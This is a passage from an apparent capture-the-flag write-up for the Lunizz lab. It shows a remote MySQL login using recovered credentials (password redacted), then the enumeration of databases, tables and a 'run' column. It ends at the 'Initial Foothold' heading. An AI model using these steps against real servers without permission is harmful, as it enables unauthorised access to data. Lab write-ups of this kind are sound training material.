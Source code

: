 **Found MySQL credentials!**

## MySQL on Port 3306

**Since we have MySQL credentials, we can remotely login to MySQL on the target machine.**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Lunizz-CTF]
└─# mysql -uruncheck -p{Redacted} -h $RHOSTS
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 13
Server version: 5.7.33-0ubuntu0.18.04.1 (Ubuntu)
[...]

MySQL [(none)]> 
```

**Enumerating MySQL:**
```
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| runornot           |
+--------------------+

MySQL [(none)]> use runornot;
[...]

MySQL [runornot]> show tables;
+--------------------+
| Tables_in_runornot |
+--------------------+
| runcheck           |
+--------------------+

MySQL [runornot]> desc runcheck;
+-------+---------+------+-----+---------+-------+
| Field | Type    | Null | Key | Default | Extra |
+-------+---------+------+-----+---------+-------+
| run   | int(11) | YES  |     | NULL    |       |
+-------+---------+------+-----+---------+-------+
```

**Found column `run` in table `runcheck` in database `runornot`.**

# Initial Foothold

```
MySQL [runornot]> SELECT run FROM runcheck;
+------+
| run  |
+------+
|    0 |
+------+
```
